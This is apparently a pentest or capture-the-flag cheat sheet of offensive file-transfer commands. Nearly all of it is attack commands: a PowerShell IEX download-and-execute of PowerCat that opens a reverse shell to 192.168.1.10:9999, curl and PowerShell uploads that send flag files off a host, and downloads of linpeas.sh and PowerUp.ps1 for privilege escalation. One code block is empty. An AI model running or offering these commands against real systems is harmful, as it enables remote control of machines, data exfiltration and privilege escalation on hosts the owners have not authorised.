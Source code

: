 # Cybersecurity Tools and Files

PowerCat

```
https://raw.githubusercontent.com/voidascent/sec/main/powercat.ps1
```

```powershell
IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.1.10/powercat.ps1');powercat -c 192.168.1.10 -p 9999 -e powershell
```

HTTP Server for Upload and Download

```bash

```

Curl (Linux and Windows cmd)

Curl Upload

```
curl -F 'file=@**/home/ubuntu/Desktop/flag.txt**' **http://192.168.10.10:8000/**
```

Curl Download

```
curl -O **http://192.168.10.10:8000/**download/linpeas.sh
```

PowerShell (Supported in PowerShell 3.0 and later)

PowerShell Upload

```
$FilePath = "**C:\Users\Administrator\Desktop\flag.txt**"; $Url = "**http://192.168.10.10:8000/**"; Add-Type -AssemblyName System.Net.Http; $client = New-Object System.Net.Http.HttpClient; $content = New-Object System.Net.Http.MultipartFormDataContent; $fileStream = [System.IO.File]::OpenRead($FilePath); $fileContent = New-Object System.Net.Http.StreamContent($fileStream); $content.Add($fileContent, "file", [System.IO.Path]::GetFileName($FilePath)); $result = $client.PostAsync($Url, $content).Result; $result.Content.ReadAsStringAsync().Result
```

PowerShell Download

```
Invoke-WebRequest -Uri "**http://192.168.10.10:8000/download/PowerUp.ps1**" -OutFile "**C:\Users\Administrator\Desktop\PowerUp.ps1**"
```
